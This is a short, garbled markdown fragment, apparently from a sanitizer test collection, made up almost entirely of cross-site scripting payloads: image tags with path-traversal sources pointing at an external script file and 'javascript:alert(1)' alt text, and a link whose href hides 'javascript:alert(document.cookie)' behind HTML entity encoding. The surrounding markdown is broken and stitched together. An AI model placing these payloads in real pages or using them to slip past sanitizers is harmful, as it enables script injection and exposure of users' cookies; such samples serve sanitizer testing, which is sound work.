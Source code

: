![

<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="javascript:alert(1)"/>
<img src=data:text/https://github.com/r89shi/r89shi.github.io/blob/master/teste.js alt="javascript:alert(1)"/>
<a href=javascript&colon;alert&lpar;document&period;cookie&rpar;>Click Here</a>
](()

